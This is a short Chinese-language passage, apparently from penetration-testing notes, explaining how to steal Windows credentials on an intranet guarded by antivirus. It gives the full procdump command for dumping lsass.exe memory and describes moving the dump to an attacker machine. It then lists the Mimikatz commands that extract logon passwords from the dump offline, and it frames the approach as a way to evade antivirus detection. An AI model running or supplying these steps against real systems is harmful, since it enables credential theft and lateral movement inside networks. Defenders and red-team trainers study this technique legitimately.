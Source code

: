 ### 内网有杀软又怎么抓

**1. 使用 Procdump 转储 lsass.exe 进程**

**Procdump** 是微软 Sysinternals 工具集中的一个合法程序，它的主要功能是创建进程的内存转储文件（Memory Dump）。这个工具通常被系统管理员用来诊断程序崩溃

由于 Procdump 是一个合法的、微软签名的工具，很多杀毒软件默认将其视为可信程序，或者至少不会像对待 Mimikatz 那样立即拦截它对 `lsass.exe` 的访问

- **命令：** `procdump64.exe -accepteula -ma lsass.exe lsass.dmp`
- **解释：**
  - `-accepteula`：接受许可协议，避免交互式提示
  - `-ma`：指定转储整个内存
  - `lsass.exe`：目标进程
  - `lsass.dmp`：输出的转储文件名

执行这个命令后，它会创建一个包含 `lsass.exe` 进程内存数据的 `lsass.dmp` 文件，并将其保存在磁盘上。这一步的重点在于：**没有使用任何恶意工具，只使用了系统管理员常用的合法工具**

**2. 将转储文件下载到攻击机**

这一步需要你将 `lsass.dmp` 文件从目标服务器下载到你的本地攻击机。你可以使用多种方法，例如：

- **HTTP/HTTPS 文件传输：** 在目标机器上通过 `powershell` 或其他工具，将文件上传到你搭建的 Web 服务器。
- **SMB/SFTP 传输：** 如果网络环境允许，通过 SMB 共享或 SFTP 传输文件

这个过程可能会被杀毒软件或网络安全设备检测到，因此需要注意。但即使被检测到，也只是一个数据传输行为，而不是一个恶意代码执行行为

**3. 使用 Mimikatz 离线读取转储文件**

当 `lsass.dmp` 文件下载到你的攻击机后，你就可以在你的本地机器上运行 Mimikatz，并让它去分析这个转储文件，而不是去连接目标机器的 `lsass.exe` 进程

- **命令：**
  - `mimikatz.exe`
  - `privilege::debug`
  - `sekurlsa::minidump lsass.dmp`
  - `sekurlsa::logonpasswords`
- **解释：**
  - `privilege::debug`：获取调试权限，这是 Mimikatz 正常工作所必需的
  - `sekurlsa::minidump lsass.dmp`：指定 Mimikatz 从 `lsass.dmp` 文件而不是实时进程中读取数据
  - `sekurlsa::logonpasswords`：从加载的转储文件中提取登录凭据
